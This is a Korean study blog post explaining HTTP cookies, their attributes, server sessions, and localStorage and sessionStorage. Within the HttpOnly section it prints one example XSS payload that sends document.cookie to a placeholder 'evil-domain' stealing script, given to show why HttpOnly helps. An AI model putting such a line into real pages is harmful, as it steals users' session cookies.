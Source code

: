```yaml
---
title: (작성중) 쿠키, 세션 그리고 웹 스토리지
date: 2019-04-16 22:59:48
categories: 
  - Web
tags: 
  - study
---
```


쿠키, 세션, 웹 스토리지에 대해 간략히 정리해보았습니다.

<!-- more -->

**쿠키**, **세션**, **웹 스토리지**를 설명하기에 앞서 왜 사용하는지를 더 쉽게 이해하기 위해 **HTTP 프로토콜**의 특징을 알아보겠습니다.

### HTTP 프로토콜의 특징

- **비연결지향 (Connectionless)**: 클라이언트가 서버에게 Request를 보내고 서버가 클라이언트에게 Response를 보내면 접속을 종료한다.
- **무상태 (Stateless)**: 통신이 끝나면 상태 정보를 유지하지 않는다.

즉, 클라이언트의 로그인 정보나 브라우저에서 입력한 값 등이 페이지를 이동할 때 마다 초기화 되는 것입니다. 이러한 문제점을 해결하기 위해 데이터 저장에 사용하는 것이 **쿠키**, **세션** 그리고 **웹 스토리지**입니다.

### 쿠키

**쿠키**는 클라이언트 로컬에 저장되는 키와 값 형태의 작은 파일로 이름, 값, 만료 시간, 경로 정보가 들어있습니다.
**쿠키**는 주로 세 가지 목적을 위해 사용됩니다.  
- **세션 관리**: 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
- **사용자 맞춤**: 사용자가 선호하는 옵션이나 테마 등의 세팅
- **사용자 추적**: 사용자의 행동을 기록하고 분석하는 용도 

**Response Header**의 `Set-Cookie` 속성을 사용하면 클라이언트에 쿠키를 만들 수 있으며 만들어진 쿠키는 클라이언트가 따로 설정하지 않아도 브라우저가 **Request Header**에 넣어서 서버로 전송하게 됩니다.

서버의 HTTP 응답 헤더에서 쿠키를 설정합니다.

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: name=hellozin
Set-Cookie: job=developer
```

이후 클라이언트에서 보내는 모든 요청에 브라우저는 `Cookie` 헤더를 통해 저장된 모든 쿠키를 전송합니다.

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: name=hellozin; job=developer
```

이렇게 만들어진 쿠키는 **스코프**에 의해 크게 두가지로 나눌 수 있습니다.

- 클라이언트가 종료되면 삭제되는 휘발성 쿠키인 `Session Cookie`
- 클라이언트가 종료되어도 일정 기간 유지되는 `Permanent Cookie`

**Permanent Cookie**는 `Expires(날짜와 시간)` 혹은 `Max-Age(초)` 를 명시해 해당 날짜, 혹은 시간까지 쿠키를 유지할 수 있고 아무것도 명시하지 않을 경우 **Session Cookie** 가 됩니다.

```
Set-Cookie: name=hellozin; Expires=Wed, 21 Oct 2019 07:28:00 GMT;
```
> 명시된 만료일, 시간은 서버가 아닌 클라이언트를 기준으로 계산됩니다.

**Domain** 과 **Path** 속성은 쿠키의 스코프를 정의합니다.  
**Domain** 속성이 명시되면 해당 쿠키는 서브 도메인에도 포함되고 명시되지 않을 경우 현재 문서 위치의 호스트 일부를 기본값으로 합니다.

```
Domain=naver.com 의 쿠키가 포함되는 서브도메인의 예
- news.naver.com
- m.naver.com
```

**Path** 속성이 명시되면 해당 쿠키는 명시된 path가 포함된 서브 디렉토리에 포함됩니다.

```
Path=/docs 의 쿠키가 포함되는 서브디렉토리의 예
- /docs/Web/
- /docs/Web/HTTP
```

**Secure** 속성은 HTTPS 프로토콜로 암호화 된 요청일 경우에만 쿠키가 포함됩니다. 하지만 Secure 속성을 추가하더라도 안전하다고 볼 수 없기 때문에 민감한 정보는 쿠키에 추가해서는 안됩니다.

**HttpOnly** 속성은 자바스크립트의 `Document.cookie` API를 통 에 의해 쿠키가 접근되는 것을 방지합니다. 이를 통해 인증된 정보를 자바스크립트를 통해 탈취하는 Cross-site 스크립팅(XXS) 공격을 막는데 도움을 줍니다.

```
Set-Cookie: password=DontDoThat; Secure; HttpOnly
```

Cross-site 스크립팅(XXS) 공격의 예
```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

### 세션

세션이란 일정 시간동안 같은 브라우저로 부터 들어오는 일련의 요구를 하나의 상태로 보고 그 상태를 유지하는 기술입니다.

클라이언트가 **Request** 를 보내면 **Response** 에 `Set-Cookie` 를 통해 클라이언트의 **유일한 ID값**을 생성해 부여하고 이를 통해 사용자 정보는 안전한 서버에 존재하며 클라이언트와 서버 간에는 ID 값만을 전달해 보안 위협을 감소시켜 줍니다.

이 때 클라이언트에 저장되는 쿠키는 세션 종료 시 함께 소멸되는 "Memory Cookie" 타입을 가져 브라우저가 종료되면 세션과 관련된 쿠키도 삭제됩니다.

### 웹 스토리지

**웹 스토리지**는 서버가 아닌, 클라이언트에 데이터를 저장할 수 있도록 지원하는 **HTML5**의 새로운 기능입니다.

**쿠키**와 기능 자체는 유사하지만 **4KB** 밖에 저장하지 못하는 쿠키와 다르게 **웹 스토리지**는 약 **5MB** 까지 저장공간을 이용할 수 있습니다. 웹 스토리지의 최신 스펙은 https://www.w3.org/TR/webstorage/ 에서 확인할 수 있습니다.

웹 스토리지에는 **로컬 스토리지(local Storage)** 와 **세션 스토리지(session Storage)** 가 있습니다. 로컬 스토리지와 세션 스토리지는 각각의 고유한 특성이 있으며, 프로그래머의 필요에 따라 선택적으로 사용됩니다. 다음 항목에서는 로컬 스토리지와 세션 스토리지에 대한 각각의 특성에 대해 설명합니다.

#### 로컬 스토리지

**로컬 스토리지**는 브라우저 자체에 **반영구적**으로 데이터를 저장하며, 브라우저를 종료해도 데이터가 유지됩니다. 다만 **도메인(domain)이 다른 경우** 로컬 스토리지에 접근할 수 없습니다. 예를 들어 `naver.com` 로컬 스토리지에서 저장한 데이터는 `google.com` 에서 접근할 수 없는 것과 같습니다.

#### 세션 스토리지

**세션 스토리지**는 각 세션마다 데이터가 **개별적으로 저장**되며 로컬 스토리지와 다르게 세션을 종료하면 데이터가 **자동으로 제거**되며 같은 도메인이라도 **세션이 다르면** 데이터에 접근할 수 없습니다.

### Reference

- [HTTP 쿠키 / MDN](https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies)
- [쿠키 옵션 - path & domain / 생활코딩](https://opentutorials.org/course/3387/21745)
- [쿠키와 세션의 차이, 용도, 사용법 / 기본기를 쌓는 정아마추어 코딩블로그](https://jeong-pro.tistory.com/80)
- [웹 스토리지 (Web Storage)의 특성과 사용법 / Bool](https://untitledtblog.tistory.com/47)